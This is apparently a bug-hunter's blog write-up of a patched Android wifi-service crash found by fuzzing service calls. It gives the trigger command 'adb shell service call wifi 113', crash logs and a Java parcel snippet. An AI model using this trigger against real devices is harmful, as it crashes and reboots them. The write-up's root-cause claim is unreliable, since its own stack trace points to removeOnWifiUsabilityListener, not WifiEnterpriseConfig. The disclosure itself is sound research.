 # Silly calls and silly bugs 

bugs in android that cause a Denial Of Service in Android Runtime. I needed a break form IOS and mac so I decided to hop back into Android as it is cool! After some reading and about 50 hours of research into Android I got a few crashes, most are OOM which cause the same issue but are less interesting. Though do I report them as they do cause a device crash as it uses all of the memory by making one service call to a different componant. 


Andorid is made up of many componants as shown below there are sevreal vectors, I chose service calls as they where low level enough to hopefully get some bugs. 

![Android Stack](https://source.android.com/static/images/android-stack.svg)

Service call layout:
$ adb shell SERVICENAME values, int 64, float, string, int 32 
The idea is simple, randomize these calls, creating a dumb fuzzer. 


Covering the crash, afetr we send our service call, to the wifi stack, we can see the following crash, if we continie to spam the device with the packets after the null pointer it then shuts off the device and causes a reboot, for some reason I do not know why. But this is what it does. It has since been patched and can be seen [here](https://issuetracker.google.com/issues/326278126) issue 326278126 in AOSP as patched, I may have submitted it the wrong way to the Android team, I thought if you posted directly on thier bugs some bugs could get noticed by the security team where this is not the case, I then had to then re report the bug to product security and hopefully, this meets the critiria for a CVE as it does cause a dos in the system due to a NPE.

```bash
$ adb adb shell service call wifi 113

$ adb logcat -b crash
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at android.os.RemoteCallbackList.unregister(RemoteCallbackList.java:156)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at com.android.server.wifi.WifiMetrics.removeOnWifiUsabilityListener(WifiMetrics.java:7559)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl.lambda$removeOnWifiUsabilityStatsListener$108(WifiServiceImpl.java:6283)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl.$r8$lambda$SBpNFH_Zvv16E23PY-wxYG5jMI4(WifiServiceImpl.java:0)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl$$ExternalSyntheticLambda117.run(R8$$SyntheticClass:0)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at android.os.Handler.handleCallback(Handler.java:958)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at android.os.Handler.dispatchMessage(Handler.java:99)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at com.android.server.wifi.RunnerHandler.dispatchMessage(RunnerHandler.java:122)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at android.os.Looper.loopOnce(Looper.java:230)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at android.os.Looper.loop(Looper.java:319)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at android.os.HandlerThread.run(HandlerThread.java:67)
02-22 14:12:15.126 14876 30004 E AndroidRuntime: FATAL EXCEPTION: lowpool[28]
02-22 14:12:15.126 14876 30004 E AndroidRuntime: Process: com.google.android.gms.persistent, PID: 14876
02-22 14:12:15.126 14876 30004 E AndroidRuntime: DeadSystemException: The system died; earlier logs will point to the root cause
02-22 14:15:18.576 30232 30495 E AndroidRuntime: !@*** FATAL EXCEPTION IN SYSTEM PROCESS: WifiHandlerThread
02-22 14:15:18.576 30232 30495 E AndroidRuntime: java.lang.NullPointerException: Attempt to invoke interface method 'android.os.IBinder android.os.IInterface.asBinder()' on a null object reference
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at android.os.RemoteCallbackList.unregister(RemoteCallbackList.java:156)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at com.android.server.wifi.WifiMetrics.removeOnWifiUsabilityListener(WifiMetrics.java:7559)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl.lambda$removeOnWifiUsabilityStatsListener$108(WifiServiceImpl.java:6283)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl.$r8$lambda$SBpNFH_Zvv16E23PY-wxYG5jMI4(WifiServiceImpl.java:0)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl$$ExternalSyntheticLambda117.run(R8$$SyntheticClass:0)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at android.os.Handler.handleCallback(Handler.java:958)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at android.os.Handler.dispatchMessage(Handler.java:99)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at com.android.server.wifi.RunnerHandler.dispatchMessage(RunnerHandler.java:122)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at android.os.Looper.loopOnce(Looper.java:230)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at android.os.Looper.loop(Looper.java:319)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at android.os.HandlerThread.run(HandlerThread.java:67)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: !@*** FATAL EXCEPTION IN SYSTEM PROCESS: WifiHandlerThread
02-22 14:18:15.797 15657 15912 E AndroidRuntime: java.lang.NullPointerException: Attempt to invoke interface method 'android.os.IBinder android.os.IInterface.asBinder()' on a null object reference
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at android.os.RemoteCallbackList.unregister(RemoteCallbackList.java:156)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at com.android.server.wifi.WifiMetrics.removeOnWifiUsabilityListener(WifiMetrics.java:7559)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl.lambda$removeOnWifiUsabilityStatsListener$108(WifiServiceImpl.java:6283)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl.$r8$lambda$SBpNFH_Zvv16E23PY-wxYG5jMI4(WifiServiceImpl.java:0)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl$$ExternalSyntheticLambda117.run(R8$$SyntheticClass:0)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at android.os.Handler.handleCallback(Handler.java:958)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at android.os.Handler.dispatchMessage(Handler.java:99)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at com.android.server.wifi.RunnerHandler.dispatchMessage(RunnerHandler.java:122)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at android.os.Looper.loopOnce(Looper.java:230)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at android.os.Looper.loop(Looper.java:319)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at android.os.HandlerThread.run(HandlerThread.java:67)
```
Now if the Javascript code is then reviewed this can be traced to the following paramaters of the JS object. 

![Android WIFI stack](https://source.android.com/static/docs/core/architecture/images/wifi-components.png)


#### - android.net.wifi.WifiEnterpriseConfig
```Java 
public static final Creator<WifiEnterpriseConfig> CREATOR =
            new Creator<WifiEnterpriseConfig>() {
                public WifiEnterpriseConfig createFromParcel(Parcel in) {
                    WifiEnterpriseConfig enterpriseConfig = new WifiEnterpriseConfig();
                    int count = in.readInt();
                    for (int i = 0; i < count; i++) {
                        String key = in.readString();
                        String value = in.readString();
                        enterpriseConfig.mFields.put(key, value);
                    }
                    enterpriseConfig.mCaCert = readCertificate(in);
                    PrivateKey userKey = null;
                    int len = in.readInt();
                    if (len > 0) {
                        try {
                            byte[] bytes = new byte[len];
                            in.readByteArray(bytes);
                            String algorithm = in.readString();
                            KeyFactory keyFactory = KeyFactory.getInstance(algorithm);
                            userKey = keyFactory.generatePrivate(new PKCS8EncodedKeySpec(bytes));
                        } catch (NoSuchAlgorithmException e) {
                            userKey = null;
                        } catch (InvalidKeySpecException e) {
                            userKey = null;
                        }
                    }
                    enterpriseConfig.mClientPrivateKey = userKey;
                    enterpriseConfig.mClientCertificate = readCertificate(in);
                    return enterpriseConfig;
                }
```

The trigger of the crash is the following, by simply calling wifi 113 

``` Java 
enterpriseConfig.mFields.put(key, value);
```
The mfields are used as a hash reprensetation of the keys used for authentication in the WifiEnterpriseConfig which would make sense as there needs to be some form of verification/attistation for WIFI. By giving this a null or simply call the service without any other stages for authentication will simpaly trigger the defrffrence, though this could be triggered ina real situation, if just a null object was passed to the device when it is searching for wifi. 





